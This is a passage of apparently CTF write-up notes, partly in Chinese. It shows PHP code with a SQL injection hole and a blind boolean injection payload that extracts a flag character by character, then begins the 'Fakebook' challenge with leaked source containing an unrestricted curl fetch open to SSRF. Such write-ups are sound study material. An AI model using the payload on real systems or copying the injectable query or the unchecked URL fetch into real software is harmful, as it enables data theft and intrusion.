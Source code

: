 ```php
    $query = mysql_query("SELECT content from passage WHERE id = ${id} limit 0,1");
    
    if($query){
        $result = mysql_fetch_array($query);
        
        if($result){
            echo $result['content'];
        }else{
            echo "Error Occured When Fetch Result.";
        }
    }else{
        var_dump($query);
    }
}else{
    die("SQL Injection Checked.");
}
```

payload:
``id=0^(ascii(substr((select(flag)from(flag)),1,1))>101)``

```

```





## 网鼎杯-2018-Fakebook

考点: 扫描源码+SSRF+反序列化
访问robots.txt发现user.php.bak源码

```php
<?php


class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }
```